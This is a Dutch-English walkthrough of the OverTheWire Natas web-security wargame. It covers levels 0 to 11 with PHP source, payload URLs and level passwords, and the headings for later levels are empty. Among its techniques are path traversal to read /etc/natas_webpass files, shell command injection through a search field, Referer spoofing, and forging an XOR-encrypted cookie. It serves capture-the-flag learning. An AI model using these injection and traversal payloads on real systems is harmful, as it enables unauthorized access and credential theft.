# Natas (Web)

##  Level 0

Username: natas0
Password: natas0
URL:      http://natas0.natas.labs.overthewire.org

**elk level gaat de username omhoog gelijk aan het nummer vh level**



The password for natas1 is 0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq 

## Level 0 → Level 1



via F12 ipv right click > inspect

The password for natas2 is TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI 

## Level 1 → Level 2

View Source !!!

``` html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas2", "pass": "TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI" };</script></head>
<body>
<h1>natas2</h1>
<div id="content">
There is nothing on this page

</div>
</body></html>
```

Interesting:

``` html
There is nothing on this page

```

leads to http://natas2.natas.labs.overthewire.org/files/pixel.png

Now check the files directory where we see an interesting file named users.txt:



And here we can find the flag:



**natas3: 3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH**

## Level 2 → Level 3

``` html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas3", "pass": "3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH" };</script></head>
<body>
<h1>natas3</h1>
<div id="content">
There is nothing on this page
<!-- No more information leaks!! Not even Google will find it this time... -->
</div>
</body></html>
```

Interesting line:

```
<!-- No more information leaks!! Not even Google will find it this time... -->
```

Hints to the fact that we can check robots.txt

robots.txt is the filename used for implementing the Robots Exclusion Protocol, a standard used by websites to indicate to visiting web crawlers and other web robots which portions of the website they are allowed to visit. The standard, developed in 1994, relies on voluntary compliance.



Now we go to s3cr3t:



And here we again can see a user.txt file that gives us the password:



**natas4: QryZXc2e0zahULdHrtHxzyYkj59kUxLQ**

## Level 3 → Level 4

``` html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

Interesting lines:

``` html
<div id="content">
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
```

If we refresh it says:

``` html
Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
```

We can conclude that it has something to do with GET request 

Now go download ZAP Proxy + (FoxyProxy Extension and your Certificate) 

Here we can see the password for natas4



Now we will press stop, do a new GET request and change the referen to natas5 instead of natas4 (do Open/Resend with Request Editor):



Now check the response and the flag is there:



**Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK**

## Level 4 → Level 5

Interesting html in sourcecode:

``` html
<div id="content">
Access disallowed. You are not logged in</div>
```

Cookie (loggedin) veranderen in storage van 0 naar 1 en refreshen: 


**Access granted. The password for natas6 is 0RoJwHdSKWFTYR5WuiAewauSuNaBXned**

## Level 5 → Level 6

``` html
<div id="content">

<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>

<form method=post>
Input secret: <input name=secret><br>
```



**?$secret = "FOEIUWGHFEEUHOFUOIU";?**

Now fill the secret in the form and you will get the following message:

**Access granted. The password for natas7 is bmg8SvU1LizuWjx3y7xkNERkHxGre0GS**

## Level 6 → Level 7

``` html
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

Het zal iets te maken hebben met /etc/natas_webpass/natas8 en met natas7.natas.labs.overthewire.org/index.php?page=**???**

Je moest gewoon de volgende URL ingeven:

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

Je kan het ook op volgende manier doen:

http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8

http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8%20%E2%86%92%20..%2F..%2F..%2F..%2Fetc%2Fnatas_webpass%2Fnatas8

xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q 

## Level 7 → Level 8

``` html
<div id="content">
<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```

[https://cyberchef.org](https://cyberchef.org)

```3d3d516343746d4d6d6c315669563362 (From Hex) -> ==QcCtmMml1ViV3b```

```==QcCtmMml1ViV3b (Reverse) -> b3ViV1lmMmtCcQ==```

```b3ViV1lmMmtCcQ== (From base64) -> oubWYf2kBq```

**Access granted. The password for natas9 is ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t** 

## Level 8 → Level 9

``` html
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>

<pre>
</pre>
```

http://natas9.natas.labs.overthewire.org/?needle=*&submit=password

``` html
</form>
Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

index.php:    passthru("grep -i $key dictionary.txt")
```

**By reading the code, we can tell that there is a potential command injection. So if we enter ; cat /etc/natas_webpass/natas10 in the search field, we will get the password. That’s due to the fact that the ; token separates commands in a shell.**

http://natas9.natas.labs.overthewire.org/?needle=;%20cat%20/etc/natas_webpass/natas10&submit=Search



Find words containing:

Output:

t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu

## Level 9 → Level 10

``` html
<h1>natas10</h1>
<div id="content">

For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

http://natas10.natas.labs.overthewire.org/?needle=;&submit=Search

Input contains illegal character (/[;|&]/):

``` html

<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

**This one is quite similar to the previous one however, we got some restriction on the characters. But, we could try to read all the files of a directory using the following input : .* /etc/natas_webpass/natas11**

http://natas10.natas.labs.overthewire.org/?needle=.*%20/etc/natas_webpass/natas11&submit=Search

/etc/natas_webpass/natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk



## Level 10 → Level 11

``` html
<h1>natas11</h1>
<div id="content">
<body style="background: #ffffff;">
Cookies are protected with XOR encryption<br/><br/>

<form>
Background color: <input name=bgcolor value="#ffffff">
<input type=submit value="Set color">
</form>
```

If we go to cookeis we get the following: data:"HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg%3D"

``` html
<?

$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}

$data = loadData($defaultdata);

if(array_key_exists("bgcolor",$_REQUEST)) {
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
        $data['bgcolor'] = $_REQUEST['bgcolor'];
    }
}

saveData($data);


?>

<h1>natas11</h1>
<div id="content">
<body style="background: <?=$data['bgcolor']?>;">
Cookies are protected with XOR encryption<br/><br/>

<?
if($data["showpassword"] == "yes") {
    print "The password for natas12 is <censored><br>";
}

?>
```

A line to look out for:

```
json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true)
```

**ciphertext XOR plaintext = key, it’s called known-plaintext attack**

Notes:

```
XOR:
• A xor B = C
• A xor C = B
• B xor C = A

So;
if
• Key xor DefaultData = CookieData
then
• DefaultData xor CookieData = Key

◇ After we found the key then we can change the DefaultData and get the new Cookie to see the password
```

https://onlinephp.io/

### Deel 1: De cookie decoderen en de sleutel achterhalen

``` php
<?php
function xor_encrypt($in) {
    $cipher = json_encode(array("showpassword"=>"no", "bgcolor"=>"#fffff")); 
    $text = $in;
    $key = '';
    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $key .= $text[$i] ^ $cipher[$i % strlen($cipher)];
    }
    return $key;
}
$cookie = base64_decode('HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg%3D');
echo xor_encrypt($cookie)
?>
```

Uitleg script:

```
1. Versleutelde cookie decoderen: De versleutelde cookie HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg%3D wordt eerst omgezet van base64 naar de oorspronkelijke byte-representatie met base64_decode().
2. XOR-operatie uitvoeren: De functie xor_encrypt() vergelijkt de gedecodeerde cookie ($cookie) met de plaintext json_encode(array("showpassword"=>"no", "bgcolor"=>"#ffffff")).
De XOR-operatie (^) werkt hier om de sleutel te vinden:
key[i] = cookie[i] XOR plaintext[i]
Omdat we de plaintext kennen (de standaarddata "showpassword"=>"no" en "bgcolor"=>"#ffffff"), kunnen we de sleutel afleiden.
```

Output:

**eDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeD0c**

### Deel 2: De cookie manipuleren

``` php
<?php
function xor_encrypt($in) {
    $cipher = 'eDWo'; 
    $text = $in;
    $key = '';
    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $key .= $text[$i] ^ $cipher[$i % strlen($cipher)];
    }
    return $key;
}
$data = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");
print base64_encode(xor_encrypt(json_encode($data)))
?>
```

Uitleg code:

```
1. Kende sleutel gebruiken: De sleutel eDWo (gebaseerd op de output van Deel 1) wordt gebruikt om nieuwe gegevens ($data) te versleutelen.
2. Nieuwe gegevens maken: De nieuwe data bevat "showpassword"=>"yes" in plaats van "showpassword"=>"no". Dit betekent dat de gewijzigde cookie ervoor zal zorgen dat we toegang krijgen tot het wachtwoord.
3. Versleuteling toepassen: De functie xor_encrypt() XOR’t de nieuwe gegevens ($data) met de sleutel eDWo en genereert de versleutelde waarde.
4. Base64-encodering: De versleutelde data wordt gecodeerd in base64 en uitgeprint.
```

Output:

**HmYkBwozJw4WNyAAFyB1VUc9MhxHaHUNAic4Awo2dVVHZzEJAyIxCUc5**

Vervang nu de oorspronkelijke cookie door deze cookie (HmYkBwozJw4WNyAAFyB1VUc9MhxHaHUNAic4Awo2dVVHZzEJAyIxCUc5) en herlaad de pagina:

**The password for natas12 is yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB**

## Level 11 → Level 12


## Level 12 → Level 13


## Level 13 → Level 14


## Level 14 → Level 15


## Level 15 → Level 16


## Level 16 → Level 17


## Level 17 → Level 18


## Level 18 → Level 19


## Level 19 → Level 20


## Level 20 → Level 21


## Level 21 → Level 22


## Level 22 → Level 23


## Level 23 → Level 24


## Level 24 → Level 25


## Level 25 → Level 26


## Level 26 → Level 27


## Level 27 → Level 28


## Level 28 → Level 29


## Level 29 → Level 30


## Level 30 → Level 31


## Level 31 → Level 32


## Level 32 → Level 33


## Level 33 → Level 34


